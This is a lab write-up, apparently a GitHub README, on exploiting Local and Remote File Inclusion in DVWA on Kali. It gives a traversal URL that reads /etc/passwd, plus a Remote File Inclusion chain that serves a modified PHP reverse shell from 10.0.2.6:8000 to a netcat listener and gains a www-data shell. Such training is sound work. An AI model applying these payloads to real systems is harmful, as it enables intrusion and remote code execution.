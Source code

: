# Local File Inclusion(LFI)/Remote File Inclusion(RFI)

## Objective:
The purpose of this project is to gain practical experience in identifying and exploiting Local File Inclusion (LFI) and Remote File Inclusion (RFI) vulnerabilities within web applications. By setting up Damn Vulnerable Web Application (DVWA) on Virtualbox and using Docker, I aim to create a controlled environment for hands-on exploration. Key tasks and learning objectives include:

**Project Highlights:**

1. Environment Setup:
- Utilize Virtualbox to set up Damn Vulnerable Web Application (DVWA) and Docker on a Kali Linux machine.
- Establish a secure testbed to simulate real-world scenarios for LFI and RFI exploitation.
- Security Level Configuration:
- Configure DVWA security levels to low, medium, and high to simulate different complexities of LFI and RFI vulnerabilities.

2. Local File Inclusion (LFI) Exploration:
- Familiarize myself with the DVWA interface and locate sections related to LFI vulnerabilities.
- Exploit LFI by including local files, starting with the lowest security level and progressing to higher levels.
- Retrieve sensitive information, such as /etc/passwd, and document the steps taken and files accessed at each security level.

3. Remote File Inclusion (RFI) Exploration:
- Repeat the process for RFI vulnerabilities, attempting to include remote files and execute code from a Kali Linux machine.
- Start a Python server on Kali for RFI exploitation, demonstrating the inclusion of remote files and code execution on the target DVWA machine.
- Document the steps taken and files accessed during RFI exploitation at each security level.

4. Issue Resolution:
- Address common issues encountered during exploitation, including enabling the PHP function allow_url_include.
- Provide troubleshooting steps for resolving errors and challenges in the scanning environment.

## Walkthrough
### Local File Inclusion (LFI)

**1. Docker Setup:**

- Executed the command sudo docker run –rm -it -p 80:80 vulnerables/web-dvwa to launch the DVWA container.

**2. Accessing DVWA:**

- Opened DVWA on Firefox via http://localhost and logged in with admin credentials (Username: admin, Password: password).

**3. Setting Security Level:**

- Navigated to the DVWA Security tab and set the security level to low.

**4. Exploiting LFI - Low Security Level:**

- Moved to the "File Inclusion" tab and attempted to exploit the vulnerability by including local files.
- Altered the URL to http://localhost/vulnerabilities/fi/?page=../etc/passwd for directory traversal.
- Explored further with additional "../" to retrieve sensitive information.

**5. Adjusting Security Level and Repeating LFI:**

- Returned to the "DVWA Security" tab and increased the security level to medium.
- Moved to the "File Inclusion" tab to repeat the LFI process at the medium security level.

### Remote File Inclusion (RFI)

**1. Setting Up RFI - Low Security Level:**

- Returned to the "DVWA Security" page and set the security level to low.
- Accessed the "/usr/share/webshells/php" directory and modified the reverse shell PHP file using the command nano reverse-reverse-shell.php.
- Updated IP to "10.0.2.6" and port to "4445," saving the new file as "RFI1.php."

**2. Initiating Listener and Python Server:**

- Opened a new Kali tab and initiated a listener with the command nc -lvp 4445.
- Started a Python server on port 8000 in the "/webshells/php" directory using python3 -m http.server 8000.

**3. Exploiting RFI:**

- Modified the DVWA file inclusion URL to localhost/vulnerabilities/fi/?page=http://10.0.2.6:8000/RFI1.php.
- Observed successful execution in the netcat tab with the output "www-data" from the command whoami.
- Checked the Python server for the file execution timestamp and a 200-success code.
